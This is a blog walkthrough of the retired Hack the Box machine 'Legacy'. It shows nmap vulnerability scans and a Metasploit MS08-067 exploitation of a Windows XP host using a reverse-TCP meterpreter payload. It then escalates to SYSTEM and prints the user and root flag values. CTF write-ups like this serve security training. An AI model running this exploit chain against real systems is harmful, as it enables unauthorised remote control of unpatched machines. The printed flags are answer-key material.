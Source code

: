 ```yaml
---
title: Legacy, Hack the Box CTF Walkthrough
description: 
tag: CTF
image: /assets/img/posts/2021-01-11-legacy-hack-the-box-walkthrough/legacy.png
layout: post
description: ""
date:   2021-01-10 20:01:21 -0400
last-updated: 2021-01-10 20:01:21 -0400
tag: ctf
author: Tyler Butler
---
```



Legacy is an easy level retired capture the flag machine from Hack the Box. This writeup will describe the techniques I used to bypass security controls and gain root access to the machine.

## Getting Started   
The first thing i did was conduct a basic nmap scan to search for the top 200 open ports on the target.  

```bash
──(kali㉿kali)-[~/Documents/htb/legacy]
└─$ nmap --top-ports 200 -Pn 10.10.10.4
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 14:50 EST
Nmap scan report for 10.10.10.4
Host is up (0.023s latency).
Not shown: 197 filtered ports
PORT     STATE  SERVICE
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp closed ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 2.57 seconds
                                                                                                                                                          
```  

The scan shows there are at least 2 open ports with services such as netbios and microsoft-ds running. Next, to get a better understanding of the services and version running, and to scan for basic vulnerabilities, I used the nmapAutomator script.  The below output only shows the most relevant information.  

```bash
---------------------Starting Nmap Vulns Scan---------------------
                                                                                                          
Running CVE scan on basic ports
                                                                                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 15:00 EST
Nmap scan report for 10.10.10.4
Host is up (0.023s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.03 seconds


Running Vuln scan on basic ports
                                                                                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 15:00 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.4
Host is up (0.021s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.12 seconds
```  

The scan shows the target is likely vulnerable to CVE-2008-4250, a serious vulnerability also referred to by its [microsoft bulletin](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067) identifier, Microsoft Windows Server 2000/2003 - Code Execution (MS08-067). There is a public exploit for this vulnerability on metasploit (exploit/windows/smb/ms08_067_netapi), so next i started up the msfconsole and configured the necessary options.  

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   10.10.10.4       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf6 exploit(windows/smb/ms08_067_netapi) > 
```  

Executing the exploit started a reverse meterpreter session on the target. Using the `getsystem` meterpreter command, I upgraded my privilege to SYSTEM. At this point I can start looking for the user and root flags.  

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.10.10.4:1028) at 2021-01-11 10:22:35 -0500

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > 
```  

I used the `search` meterpreter command and found both flags. 

```bash
meterpreter > search -f *user.txt*
Found 1 result...
    c:\Documents and Settings\john\Desktop\user.txt (32 bytes)
meterpreter > cat "c:\Documents and Settings\john\Desktop\user.txt"
e69af0e4f443de7e36876fda4ec7644fmeterpreter > 
```  

```bash
meterpreter > search -f *root.txt*
Found 1 result...
    c:\Documents and Settings\Administrator\Desktop\root.txt (32 bytes)
meterpreter > cat "c:\Documents and Settings\Administrator\Desktop\root.txt"
993442d258b0e0ec917cae9e695d5713meterpreter > 
```  

## Conclusion  
Overall this was an easy CTF machine that was vulnerable to a very popular windows exploit.  

